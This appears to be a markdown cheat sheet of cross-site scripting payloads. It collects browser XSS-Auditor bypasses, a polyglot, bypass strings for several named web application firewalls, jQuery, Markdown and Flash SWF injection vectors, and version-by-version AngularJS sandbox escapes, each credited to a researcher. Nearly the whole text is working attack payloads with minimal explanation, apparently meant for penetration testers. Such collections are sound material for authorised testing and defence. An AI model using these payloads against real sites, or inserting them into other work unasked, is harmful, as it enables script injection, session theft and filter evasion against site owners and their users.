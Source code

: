## XSS

**Chrome XSS-Auditor Bypass** by [@vivekchsm](https://twitter.com/vivekchsm)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**Chrome < v60 beta XSS-Auditor Bypass**

```html
<script src="data:,alert(1)%250A-->
```

**Other Chrome XSS-Auditor Bypasses**

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari XSS Vector** by [@mramydnei](https://twitter.com/mramydnei/status/902470271327551489)

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot** by [Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses** by [@i_bo0om](https://twitter.com/i_bo0om)

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS**
 by [Egor Homakov](https://github.com/jquery/jquery/issues/2432)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript:confirm(1)
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

**Flash SWF XSS**

- ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`

- plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`

- plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS`

- FlashMediaElement: <code>flashmediaelement.swf?jsinitfunctio%gn=alert`1`</code>

- videoJS: `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`

- YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`

- YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`

- Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`

- Banner.swf (unknown): `banner.swf?clickTAG=javascript:alert(document.domain);//`

- JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`

- SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`

- FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`

_Note: Useful reference on SWF XSS construction from [MWR Labs](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)._

**Lightweight Markup Languages**

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```

**Unicode characters**

```html
†‡•＜img src=a onerror=javascript:alert('hacked')>…‰€
```

**AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

**1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

**1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```
